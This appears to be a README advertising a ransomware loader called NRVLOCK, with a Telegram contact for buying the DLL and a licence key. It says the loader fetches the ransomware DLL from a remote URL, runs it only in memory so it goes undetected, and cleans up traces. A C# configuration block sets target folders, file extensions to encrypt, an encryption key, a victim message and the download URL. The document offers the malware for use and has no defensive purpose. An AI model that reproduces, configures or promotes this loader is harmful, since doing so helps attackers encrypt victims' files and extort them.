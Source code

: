 # 🚀 NRVLOCKSL Secure Loader  
NRVLOCK IS A RANSOMWARE 
FOR BUY PRÍVATE NRVLOCK DLL + LICENCE KEY CONTACT ME ON TELEGRAM @CyberNev or on HF @CyberNrv


## ⚠️ Disclaimer  
**© 2024 CyberNrv. All rights reserved.**  
This software is **private and confidential**. **Sharing, modifying, or redistributing this code is strictly prohibited**. Unauthorized use, distribution, or analysis of this loader **violates the terms set by the author**.  

## 🔒 Purpose  
This loader is designed to **securely load NRVLOCK.dll into memory** without leaving any traces on disk.  
It ensures **stealth execution** and **memory-only operations**, making it highly efficient and undetectable.  

## 🔧 How It Works  
1️⃣ **Downloads the remote NRVLOCK.dll** from a predefined URL.  
2️⃣ **Loads the DLL directly into memory** (without writing to disk).  
3️⃣ **Calls NRVRUN dynamically**, passing customizable arguments.  
4️⃣ **Cleans memory after execution**, leaving no traces.  

## 🔹 Configuration  
To use this loader, replace the following arguments with your own values:  
```csharp
string target = "C:\\Users\\Public\\Documents";  // 📂 Target directory
string extensions = ".txt;.docx";  // 📝 File extensions to process
string key = "YourEncryptionKey";  // 🔑 Encryption key
string lkey = "YourLicenseKey";  // 🔏 License key
bool ViewConsole = true;  // 🖥️ Show/hide console
string msg = "Your files have been secured!";  // ✉ Custom message after execution
string dllUrl = "https://yourserver.com/NRVLOCK.dll";  // 🔗 NRVLOCK.dll download URL
